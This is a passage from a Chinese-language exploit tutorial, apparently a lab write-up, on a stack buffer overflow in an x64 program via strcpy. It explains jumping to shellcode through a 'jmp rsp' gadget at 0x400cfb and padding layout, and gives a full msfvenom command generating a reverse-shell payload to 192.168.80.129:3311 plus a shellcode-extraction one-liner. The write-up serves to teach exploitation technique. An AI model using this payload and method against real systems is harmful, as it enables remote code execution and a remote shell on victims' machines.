 方向：需要去找到一个可以调用完整的shellcode的地址  
1）进行函数调用时会先把返回地址放到栈里  
2）当函数调用完会根据返回地址回到原本的地方  
3）所以所返回地址是个可以执行的地方  
4）如果让返回地址指向一个去的地方（放了shellcode的地方），那么他就会执行这个地方的东西（所以可以找有无call rsp或者jmp rsp的指令）

[![](assets/1703831476-cc31e973126c92c5589a52a3e553f0f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224941-2a68c456-a4c7-1.png)

（call, 执行函数调用. 当 CPU 执行 call 指令时, 首先会把 rip 寄存器的值入栈, 然后设置 rip 值为目标地址, 由于 rip 寄存 器的值决定了下一条CPU需要执行指令的位置, 所以当 CPU 执行完成当前 call 指令后就会跳转到目标地址。）  
地址0x400cfb会跳转到rsp位置，地址长度三个字节，满足之前测试的RIP最多只能覆盖4个字节的要求

#### 3.6 shellcode构造、生成

1.  使用msfvenom构建shell\_reverse\_tcp，生成大小为119
2.  基于112个A+8个B+4个C的分析，【shellcode】+【填充字符】+【return\_rsp】 = 124
3.  此外，这个程序使用strcpy来触发溢出，所以shellcode里不能含有null字符 \\x00，不然会截断。
4.  注意：地址0x400cfb 要倒过来写，不足8位用0补齐到8位为止。

```plain
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.80.129 LPORT=3311 -b '\x00' -f python -o shell3333

cat shell3333 |awk -F ' b' '{print $2}'|tr -d '\n"'
```

[![](assets/1703831476-77e60473ffef8fe618ae3e21a9420064.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224847-0a9484e4-a4c7-1.png)
